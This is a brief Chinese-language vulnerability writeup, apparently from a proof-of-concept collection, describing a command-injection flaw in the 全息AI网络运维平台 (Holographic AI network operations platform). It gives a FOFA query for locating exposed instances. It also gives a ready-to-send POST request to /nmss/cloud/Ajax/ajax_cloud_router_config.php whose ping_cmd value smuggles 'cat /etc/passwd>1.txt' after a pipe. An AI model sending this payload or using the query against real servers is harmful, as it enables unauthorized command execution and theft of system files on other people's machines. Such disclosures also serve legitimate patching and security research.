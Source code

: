 # 全息AI网络运维平台ajax_cloud_router_config.php存在命令执行漏洞

全息AI网络运维平台 接口 /nmss/cloud/Ajax/ajax_cloud_router_config.php 存在命令执行漏洞，导致服务器沦陷。

## fofa

```yaml
"全息AI网络运维平台"
```

## poc

```yaml
POST /nmss/cloud/Ajax/ajax_cloud_router_config.php HTTP/1.1
host：127.0.0.1

ping_cmd=8.8.8.8|cat /etc/passwd>1.txt
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407190100660.png)